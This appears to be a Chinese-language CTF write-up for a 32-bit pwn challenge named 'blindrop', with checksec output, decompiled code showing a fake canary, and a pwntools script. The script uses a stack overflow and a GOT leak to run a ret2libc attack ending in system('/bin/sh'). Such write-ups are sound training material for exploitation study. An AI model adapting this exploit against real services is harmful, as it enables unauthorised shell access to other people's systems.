


# blindrop

## 题面
尝试一下黑盒测试吧。Tips：环境版本为Ubuntu22.04。  
仅给二进制文件。  

## 分析
checksec 查看保护：  
```
[*] '/data/project/ctf-repo/pwn/cyctf2026/blindrop/blindrop'
    Arch:       i386-32-little
    RELRO:      No RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
    Debuginfo:  Yes
```

32 位无保护。  

ida pro 静态分析：  

``` c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  init_io();
  puts(s: "BlindROP Service");
  while ( 1 )
    vuln(expected: 0xDCC82F00);
}

void __cdecl vuln(uint32_t expected)
{
  _BYTE f[128]; // [esp+Ch] [ebp-8Ch] BYREF
  uint32_t v2; // [esp+8Ch] [ebp-Ch]

  v2 = expected;
  write(fd: 1, buf: "payload> ", n: 9u);
  read(fd: 0, buf: f, nbytes: 0x400u);
  printf(format: "payload: %s\n", f);
  if ( expected != v2 )
  {
    puts(s: "canary check failed.");
    _exit(status: 1);
  }
  puts(s: "canary check passed.");
}
```

好像有 canary，实际是虚假的 canary。  
检查 expected 在栈上返回地址的后一块，32 位构建函数调用栈的时候这块地方填的是被调函数的返回地址，和前面的 v2 一致就绕过伪 canary 了。  



有足够的 read 进行栈溢出。  

## 利用
最开始的 vuln 参数为 expected: `0xDCC82F00` 但因为检查在栈溢出之后，可以被任意覆盖。  
所以先用 puts_got, puts_plt 拿到 libc 地址，用 `puts`, `read`, `write` 泄漏地址的后 12 位与 [libc.rip](libc.rip) 比较拿到 libc 为 libc6-i386_2.35-0ubuntu3.14_amd64 之后就是 ret2libc 跑 system("/bin/sh")。    

拿到 libc 地址
``` python
io.recvuntil(b"payload> ")
payload = b"a" * (0x8c - 0xc) + p32(main) + b"a" * (8+ 4) + p32(puts_plt) + p32(main) + p32(puts_got) 
io.send(payload)
io.recvuntil(b"canary check passed.")
puts_addr = u32(io.recvuntil(b"\xf7")[-4:])
```

计算 libc 基址：  

``` python
print("puts address =", hex(puts_addr))
libc_base = puts_addr - libc.sym["puts"]
print("libc base = ", hex(libc_base))
binsh = libc_base + next(libc.search(b"/bin/sh\x00"))
system = libc_base + libc.sym["system"]
print("binsh =", hex(binsh))
print("system = ", hex(system))
```

上面的循环调用 vuln 没蛋用，返回地址都被弄乱了。  
上面最后回到 main 就再栈溢出跑个 system 就拿到 shell 了。  

``` python
io.recvuntil(b"payload> ")
payload = b"a" * (0x8c - 0xc) + p32(main) + b"a" * (8+ 4) + p32(system) + p32(main) + p32(binsh) 
io.send(payload)

io.interactive()
```


